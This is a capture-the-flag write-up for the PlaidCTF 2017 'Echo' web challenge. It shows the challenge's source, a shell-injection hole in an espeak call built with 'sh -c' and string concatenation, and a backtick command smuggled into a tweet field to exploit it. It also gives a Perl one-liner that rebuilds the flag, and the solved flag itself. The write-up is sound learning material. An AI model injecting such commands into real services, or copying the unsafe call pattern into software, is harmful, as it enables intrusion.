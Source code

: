 ```yaml
---
title: "PlaidCTF 2017 - Echo (web 200) Writeup"
slug: "plaidctf-2017-echo-web-200-writeup"
date: "2017-04-23 18:31:40.265798"
author_name: "tecknicaltom"
author_email: "tecknicaltom@neg9.org"
draft: false
toc: false
images:
---
```


This challenge presents a webpage with the text "Tweets are 140 characters only!" and input boxes for four tweets. Submitting tweets gives you a page with wav files, one per tweet that contains a text to speech version of the tweet.

The source code for the web front-end was provided. Examining it, you see that the tweets are written to a file:

```python {title="echo_57f0dd57961caae2fd8b3c080f0e125b.py",linenos=table,linenostart=85}
     with open(my_path + "input" ,"w") as f:
         f.write('\n'.join(tweets))

```

Also, a flag is expanded and written to a file. This creates a large file (65000b per character of the flag) that needs to be acquired completely to get the flag.


```python {title="echo_57f0dd57961caae2fd8b3c080f0e125b.py",linenos=table,linenostart=25}
def process_flag (outfile):
    with open(outfile,'w') as f:
        for x in flag:
            c = 0
            towrite = ''
            for i in range(65000 - 1):
                k = random.randint(0,127)
                c = c ^ k
                towrite += chr(k)

            f.write(towrite + chr(c ^ ord(x)))
    return

```

Both of these files are passed to a docker container:

```python {title="echo_57f0dd57961caae2fd8b3c080f0e125b.py",linenos=table,linenostart=10}
docker_cmd = "docker run -m=100M --cpu-period=100000 --cpu-quota=40000 --network=none -v {path}:/share lumjjb/echo_container:latest python run.py"
```

```python {title="echo_57f0dd57961caae2fd8b3c080f0e125b.py",linenos=table,linenostart=94}
   subprocess.call(docker_cmd.format(path=my_path).split())
```

Finally, the dockerized process must generate the wav files, because they're then converted back in our python code:

```python {title="echo_57f0dd57961caae2fd8b3c080f0e125b.py",linenos=table,linenostart=11}
convert_cmd = "ffmpeg -i {in_path} -codec:a libmp3lame -qscale:a 2 {out_path}"
```

```python {title="echo_57f0dd57961caae2fd8b3c080f0e125b.py",linenos=table,linenostart=43}
    for i in range(n):
        st = os.stat(path + str(i+1) + ".wav")
        if st.st_size < 5242880:
            subprocess.call (convert_cmd.format(in_path=path + str(i+1) + ".wav",
                                         out_path=target_path + str(i+1) + ".wav").split())
```

So, first step is to get the run.py that is executed in docker. I chose to extract it from the image without actually creating a container. I'm not very well-versed in Docker, so there may be an easier way to do this:

```bash
docker pull lumjjb/echo_container
docker save lumjjb/echo_container > echo.tar
tar xvf echo.tar
for l in */layer.tar ; do echo $l ; tar tvf $l ; done | less
tar xvf 8f*/layer.tar run.py
```

That gives us:

```python {title="run.py",linenos=table}
import sys
from subprocess import call

import signal
import os
def handler(signum, frame):
    os._exit(-1)

signal.signal(signal.SIGALRM, handler)
signal.alarm(30)


INPUT_FILE="/share/input"
OUTPUT_PATH="/share/out/"

def just_saying (fname):
    with open(fname) as f:
        lines = f.readlines()
        i=0
        for l in lines:
            i += 1

            if i == 5:
                break

            l = l.strip()

            # Do TTS into mp3 file into output path
            call(["sh","-c",
                "espeak " + " -w " + OUTPUT_PATH + str(i) + ".wav \"" + l + "\""])
```

A quick glance at that shows that it's vulnerable to shell injection in the call to espeak. Submitting a tweet with of `\`pwd\`` (using backticks) returns an audio of "slash", confirming.

Since the audio is converted by ffmpeg, we can't just cat the flag file into the output wav files. Instead, I chose to reconstruct the flag within the docker image. After confirming that the docker environment had Perl available, I was off to do some golfing, eventually working up to:

```
perl -e 'local$/;$a=<>;$f[$_/65000]^=ord(substr($a,$_,1))for(0..length($a)-1);print join"-",@f' share/flag
```

This one-liner reconstructs the flag and prints the decimal ASCII values of each character. Manually transcribed from the audio, it gives:

```
80-67-84-70-123-76-49-53-115-116-51-110-95-84-48-95-95-114-101-101-101-95-114-101-101-101-101-101-101-95-114-101-101-101-95-108-97-125
```

which decodes to:

```
PCTF{L15st3n_T0__reee_reeeeee_reee_la}
```
